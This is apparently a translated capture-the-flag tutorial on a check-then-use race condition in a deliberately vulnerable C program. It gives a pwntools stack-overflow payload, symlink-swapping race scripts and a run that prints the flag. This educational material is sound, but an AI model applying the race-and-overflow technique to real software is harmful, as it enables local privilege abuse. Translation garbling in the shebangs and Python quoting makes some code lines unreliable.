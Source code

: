 #题


## Construction example


### Source code


The source code is as follows


```c

#include <fcntl.h>

#include <stdio.h>

#include <stdlib.h>

#include <string.h>

#include <sys/stat.h>

#include <unistd.h>

void showflag() { system("cat flag"); }

void vuln(char *file, char *buf) {

  int number;

  int index = 0;

  int fd = open(file, O_RDONLY);

  if (fd == -1) {

    perror("open file failed!!");

    return;

  }

  while (1) {

    number = read(fd, buf + index, 128);

    if (number <= 0) {

      break;

    }

    index += number;

  }

  buf[index + 1] = '\x00';

}

void check(char *file) {

  struct stat tmp;

  if (strcmp(file, "flag") == 0) {

    puts("file can not be flag!!");

    exit(0);

  }

  stat(file, &tmp);

  if (tmp.st_size > 255) {

    puts("file size is too large!!");

    exit(0);

  }

}

int main(int argc, char *argv[argc]) {

  char buf[256];

  if (argc == 2) {

    check(argv[1]);

    vuln(argv[1], buf);

  } else {

    puts("Usage ./prog <filename>");

  }

  return 0;

}

```



### Analysis


It can be seen that the basic flow of the program is as follows


- Check if the incoming command line argument is &quot;flag&quot; and if so, exit.
- Check if the file size corresponding to the incoming command line parameter is greater than 255. If so, exit directly.
- Read the contents of the file corresponding to the command line parameters into buf. The size of buf is 256.


It seems that we checked the size of the file, and the size of the buf can also meet the corresponding maximum size, but there is a problem of conditional competition.


If we delete the corresponding file after the program has checked the corresponding file size and symbolically link to another larger file, the program will read more content, which will cause stack overflow.


### The basic idea


Well, the basic idea is coming, we want to get the corresponding `flag` content. Then we only need to modify the return address of the corresponding `main` function through stack overflow. The address of `showflag` can be obtained through disassembly and debugging, and the corresponding payload is obtained.


```python

➜ race test cat payload.py
from pwn import *

test = ELF (&#39;./ test&#39;)
payload = 'a' * 0x100 + 'b' * 8 + p64(test.symbols['showflag'])

open('big', 'w').write(payload)

```



The script that competes for the two conditions is


```sh

Exp racing test cat exp.sh
#! / Bin / sh
for i in `seq 500`

do

    cp small fake

    sleep 0.000008

    rm fake

    ln -s big fake

    rm fake

done

Run race test cat run.sh
#! / Bin / sh
for i in `seq 1000`

do

    ./test fake

done

```



Where exp is used to compete to delete the fake file in the corresponding window while performing symbolic links. Run is used to execute the program.


### Specific effects


```shell

➜ race test (sh exp.sh &amp;) &amp;&amp; sh run.sh
[...]

file size is too large!!

open file failed!!: No such file or directory

open file failed!!: No such file or directory

open file failed!!: No such file or directory

open file failed!!: No such file or directory

file size is too large!!

open file failed!!: No such file or directory

open file failed!!: No such file or directory

flag{race_condition_succeed!}

[...]

```



The key to success is the timing of the corresponding `sleep`.


# 参考


- http://www.cnblogs.com/biyeymyhjob/archive/2012/07/20/2601655.html

- http://www.cnblogs.com/huxiao-tee/p/4660352.html
- https://github.com/dirtycow/dirtycow.github.io